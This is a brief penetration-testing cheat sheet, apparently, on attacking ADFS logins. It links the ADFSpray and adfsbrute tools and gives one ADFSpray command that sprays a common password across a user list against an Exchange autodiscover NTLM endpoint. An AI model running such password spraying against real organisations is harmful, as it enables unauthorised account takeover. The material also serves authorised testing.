 # ADFS

## ADFSpray

* [https://github.com/xFreed0m/ADFSpray](https://github.com/xFreed0m/ADFSpray)

Spray at autodiscover \(NTLM auth\) endpoint:

```text
$ python3 ADFSpray.py -U users.txt -p 'Passw0rd!' -t 'https://autodiscover.megacorp.com/autodiscover/autodiscover.xml' autodiscover
```

## adfsbrute

* [https://github.com/ricardojoserf/adfsbrute](https://github.com/ricardojoserf/adfsbrute)


